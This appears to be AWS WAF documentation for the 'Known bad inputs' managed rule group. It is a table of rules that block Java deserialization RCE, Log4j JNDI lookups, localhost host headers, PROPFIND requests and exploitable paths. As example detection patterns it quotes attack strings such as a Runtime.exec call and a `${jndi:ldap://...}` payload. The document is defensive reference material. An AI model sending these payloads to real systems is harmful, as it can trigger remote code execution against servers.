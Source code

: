 The Known bad inputs rule group contains rules to block request patterns that are known to be invalid and are associated with exploitation or discovery of vulnerabilities\. This can help reduce the risk of a malicious actor discovering a vulnerable application\.

**Note**  
This table describes the latest static version of this rule group\. For other versions, use the API command [DescribeManagedRuleGroup](https://docs.aws.amazon.com/waf/latest/APIReference/API_DescribeManagedRuleGroup.html)\. 


| Rule name | Description and label | 
| --- | --- | 
| JavaDeserializationRCE\_HEADER |  Inspects the keys and values of HTTP request headers for patterns indicating Java deserialization Remote Command Execution\(RCE\) attempts, such as the Spring Core and Cloud Function RCE vulnerabilities \(CVE\-2022\-22963, CVE\-2022\-22965\)\. Example patterns include `(java.lang.Runtime).getRuntime().exec("whoami")`\.  This rule only inspects the first 8 KB of the request headers or the first 200 headers, whichever limit is reached first, and it uses the `Continue` option for oversize content handling\. For more information, see [Handling oversize web request components](waf-oversize-request-components.md)\.  Rule action: Block Label: `awswaf:managed:aws:known-bad-inputs:JavaDeserializationRCE_Header`   | 
| JavaDeserializationRCE\_BODY |  Inspects the request body for patterns indicating Java deserialization Remote Command Execution\(RCE\) attempts, such as the Spring Core and Cloud Function RCE vulnerabilities \(CVE\-2022\-22963, CVE\-2022\-22965\)\. Example patterns include `(java.lang.Runtime).getRuntime().exec("whoami")`\.  This rule only inspects the request body up the body size limit for the web ACL\. The limit is 8 KB for regional web ACLs and 16 KB for CloudFront web ACLs\. For CloudFront web ACLs only, you can increase it up to 64 KB in your web ACL configuration\. This rule uses the `Continue` option for oversize content handling\. For more information, see [Handling oversize web request components](waf-oversize-request-components.md)\.  Rule action: Block Label: `awswaf:managed:aws:known-bad-inputs:JavaDeserializationRCE_Body`  | 
| JavaDeserializationRCE\_URIPATH |  Inspects the request URI for patterns indicating Java deserialization Remote Command Execution\(RCE\) attempts, such as the Spring Core and Cloud Function RCE vulnerabilities \(CVE\-2022\-22963, CVE\-2022\-22965\)\. Example patterns include `(java.lang.Runtime).getRuntime().exec("whoami")`\.  Rule action: Block Label: `awswaf:managed:aws:known-bad-inputs:JavaDeserializationRCE_URIPath`  | 
| JavaDeserializationRCE\_QUERYSTRING |  Inspects the request query string for patterns indicating Java deserialization Remote Command Execution\(RCE\) attempts, such as the Spring Core and Cloud Function RCE vulnerabilities \(CVE\-2022\-22963, CVE\-2022\-22965\)\. Example patterns include `(java.lang.Runtime).getRuntime().exec("whoami")`\.  Rule action: Block Label: `awswaf:managed:aws:known-bad-inputs:JavaDeserializationRCE_QueryString`  | 
| Host\_localhost\_HEADER |  Inspects the host header in the request for patterns indicating localhost\. Example patterns include `localhost`\.  Rule action: Block Label: `awswaf:managed:aws:known-bad-inputs:Host_Localhost_Header`  | 
| PROPFIND\_METHOD |  Inspects the HTTP method in the request for `PROPFIND`, which is a method similar to `HEAD`, but with the extra intention to exfiltrate XML objects\.  Rule action: Block Label: `awswaf:managed:aws:known-bad-inputs:Propfind_Method`  | 
| ExploitablePaths\_URIPATH |  Inspects the URI path for attempts to access exploitable web application paths\. Example patterns include paths like `web-inf`\.  Rule action: Block Label: `awswaf:managed:aws:known-bad-inputs:ExploitablePaths_URIPath`  | 
| Log4JRCE\_HEADER |  Inspects the keys and values of request headers for the presence of the Log4j vulnerability \([CVE\-2021\-44228](https://www.cve.org/CVERecord?id=CVE-2021-44228), [CVE\-2021\-45046](https://www.cve.org/CVERecord?id=CVE-2021-45046), [CVE\-2021\-45105](https://www.cve.org/CVERecord?id=CVE-2021-45105)\) and protects against Remote Code Execution \(RCE\) attempts\. Example patterns include `${jndi:ldap://example.com/}`\.  This rule only inspects the first 8 KB of the request headers or the first 200 headers, whichever limit is reached first, and it uses the `Continue` option for oversize content handling\. For more information, see [Handling oversize web request components](waf-oversize-request-components.md)\.  Rule action: Block Label: `awswaf:managed:aws:known-bad-inputs:Log4JRCE_Header`  | 
| Log4JRCE\_QUERYSTRING |  Inspects the query string for the presence of the Log4j vulnerability \([CVE\-2021\-44228](https://www.cve.org/CVERecord?id=CVE-2021-44228), [CVE\-2021\-45046](https://www.cve.org/CVERecord?id=CVE-2021-45046), [CVE\-2021\-45105](https://www.cve.org/CVERecord?id=CVE-2021-45105)\) and protects against Remote Code Execution \(RCE\) attempts\. Example patterns include `${jndi:ldap://example.com/}`\.  Rule action: Block Label: `awswaf:managed:aws:known-bad-inputs:Log4JRCE_QueryString`  | 